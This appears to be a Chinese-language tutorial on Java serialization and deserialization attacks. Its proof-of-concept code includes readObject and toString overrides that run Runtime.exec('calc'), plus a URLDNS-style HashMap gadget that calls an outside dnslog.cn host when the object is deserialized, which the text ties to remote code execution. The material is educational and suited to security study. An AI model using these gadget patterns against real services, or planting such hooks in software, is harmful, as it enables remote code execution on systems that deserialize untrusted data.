

序列化：将内存中的对象压缩为字节流

反序列化：将字节流转化为内存中的对象

## 序列化

`UserDemo.class`

```java
public class UserDemo implements Serializable {
    public String name = "姚文达";
    public int age = 18;
    public String gender = "男";

    public UserDemo(String name, String gender, Integer age){
        this.name = name;
        this.gender = gender;
        this.age = age;
        System.out.println("UserDemo在输出：" + "name:" + name + " gender:" + gender + " age:" + age);
    }


    @Override
    public String toString() {
        return "UserDemo{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", gender='" + gender + '\'' +
                '}';
    }
}
```

`SerialDemo.class`

```java
public class SerialDemo {
    public static void main(String[] args) throws IOException {
        UserDemo u = new UserDemo("xiaoming","boy", 18);
        //调用方法
        SerialTest(u);
    }

    public static void SerialTest(Object obj) throws IOException {
        //FileOutputStream() 输出文件
        //将对象obj序列化后输出到文件test.txt中
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(obj);
        //test.txt就是对象u序列化的数据
    }
}

```

简单的解释：

创建一个`FileOutputStream`，用于向“test.txt”写入数据，然后使用`ObjectOutputStream`包装这个文件输出流，使得我们能够写入对象而不是简单的字节。`ObjectOutputStream` 只能用于写入实现了 `Serializable` 接口的对象。

`oos.writeObject(obj);`将传入的对象序列化，写入到test.txt文件，这个对象必须实现 `Serializable` 接口



## 反序列化

```java
public class UnserialDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 调用下面的方法，传输test.txt
        Object obj = UnserialTest("test.txt");
        System.out.println(obj);
    }

    public static Object UnserialTest(String Filename) throws IOException, ClassNotFoundException {
        //读取filename进行反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }

}
```

输出：

```
UserDemo{name='xiaoming', age=18, gender='boy'}
```


## 反序列化利用

#### 1、入口类的readObject直接调用危险方法

上面的这段代码：

```java
 public static Object UnserialTest(String Filename) throws IOException, ClassNotFoundException {
        //读取filename进行反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }
```

这里的readObject是jdk1.8里面的


我们在UserDemo中定义：

```java
//Java 中只有在类中定义了自定义的readObject(ObjectInputStream)方法且该方法是private的情况下，反序列化时才会自动调用它。
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();//保证它指向正确的那个jdk中带的那个readObject，保证正常功能
        Runtime.getRuntime().exec("calc");
    }
```

然后把UserDemo.class序列化

之后再反序列化，弹出计算器

由于java的序列化机制允许类自定义其序列化与反序列化的行为，所以在进行反序列化操作时，Java 的 ObjectInputStream 类会自动调用这个自定义的 `readObject` 方法


但是如果UserDemo.class中没有写这个方法，怎么办？


#### 2、构造函数/静态代码块等类加载时隐式执行

把UserDemo.class中的toString()方法改成这样：

```java
@Override
    public String toString() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        
        return "UserDemo{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", gender='" + gender + '\'' +
                '}';
    }
```

UnserialDemo.class还是原来的：

```java
public class UnserialDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 调用下面的方法，传输test.txt
        Object obj = UnserialTest("test.txt");
        //对 对象 进行输出，默认调用toString方法
        System.out.println(obj);
    }

    public static Object UnserialTest(String Filename) throws IOException, ClassNotFoundException {
        //读取filename进行反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }

}
```

反序列化一执行，就会弹计算器

原因：对 对象 进行输出，默认调用toString方法

#### 3、入口参数中包含可控类，该类有危险方法，readObject时调用

```java
public class UrlDns implements Serializable {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        //正常代码中，创建一个HashMap对象，将URL对象u作为key，1作为value

        //用到原生态的readObject去反序列化数据
        //readObject()本来在ObjectInputStream类中
        //HashMap中也有readObject方法
        //反序列化readObject方法调用HashMap里面的readObject方法
        //HashMap里面的readObject方法有一个执行流程，最后会触发访问DNS请求，如果这里是命令执行的话 就是RCE
        
        HashMap<URL, Integer> hash= new HashMap<>();
        URL u = new URL("http://ror8b0.dnslog.cn");
        hash.put(u, 1);
        SerialTest(hash);//产生dns.txt
        UnserialTest("dns.txt");
    }

    public static void SerialTest(Object obj) throws IOException {
        //FileOutputStream() 输出文件
        //将对象obj序列化后输出到文件test.txt中
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("dns.txt"));
        oos.writeObject(obj);
        //test.txt就是对象u序列化的数据
    }

    public static Object UnserialTest(String Filename) throws IOException, ClassNotFoundException {
        //读取filename进行反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }
}
```


如果用的是FastJson、Jackson等，上面的方法就没用了，上面是原生态的
